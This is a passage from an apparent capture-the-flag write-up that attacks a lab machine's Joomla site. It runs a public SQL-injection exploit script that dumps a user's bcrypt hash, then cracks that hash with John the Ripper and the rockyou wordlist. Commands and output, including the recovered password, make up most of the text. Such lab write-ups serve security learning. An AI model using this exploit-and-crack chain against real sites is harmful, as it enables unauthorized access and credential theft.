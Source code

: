 ```sh
$ git clone https://github.com/stefanlucas/Exploit-Joomla
$ cd Exploit-Joomla
```
When running this exploit, I was getting an indentation error `IndentationError: unindent does not match any outer indentation level`. To fix this, I ran `:%s/    /^I/g` in vim to replace every instance of 4 spaces with a tab. 

```sh
$ python joomblah.py http://10.10.8.219/
																										
		.---.	.-'''-.		.-'''-.														  
		|   |   '   _	\	 '   _	\							.---.					
		'---' /   /` '.   \  /   /` '.   \  __  __   ___   /|		|   |			.		   
		.---..   |	 \  ' .   |	 \  ' |  |/  `.'   `. ||		|   |		  .'|		  
		|   ||   '	  |  '|   '	  |  '|   .-.  .-.   '||		|   |		 <  |		  
		|   |\	\	 / / \	\	 / / |  |  |  |  |  |||  __	|   |	__	| |		  
		|   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
		|   |	'-...-'`	   '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
		|   |							  |  |  |  |  |  |||	 | ||   |`" __ | | |  /	| |  
		|   |							  |__|  |__|  |__|||\	/ '|   | .'.''| | | |	 | |  
 __.'   '											  |/'..' / '---'/ /   | |_| |	 | |  
|	  '											   '  `'-'`	   \ \._,\ '/| '.	| '. 
____.'																`--'  `" '---'   '---'
 
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We have discovered a username!

### John

Let's run John to see if we can crack this password:

```sh
$ john  joomla_pass.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt >> john.txt
Using default input encoding: UTF-8
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:55 0.22% (ETA: 20:54:31) 0g/s 216.4p/s 216.4c/s 216.4C/s CLAIRE..102981
1g 0:00:03:38 DONE (2022-10-08 22:47) 0.004579g/s 214.6p/s 214.6c/s 214.6C/s warden..setsuna
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

$ cat john.txt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
spiderman123     (?)
```

